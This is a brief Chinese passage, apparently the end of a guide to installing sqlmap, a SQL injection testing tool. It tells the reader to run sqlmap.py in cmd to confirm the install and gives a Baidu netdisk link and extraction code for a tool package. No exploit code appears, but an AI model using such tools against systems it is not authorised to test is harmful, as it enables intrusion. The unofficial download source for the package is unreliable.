启动cmd，输入sqlmap.py 检测是否运行成功！



对应工具包网盘地址：

链接：https://pan.baidu.com/s/1yC8P6a_5KI5B_JT7uyVHTw
提取码：0xkf
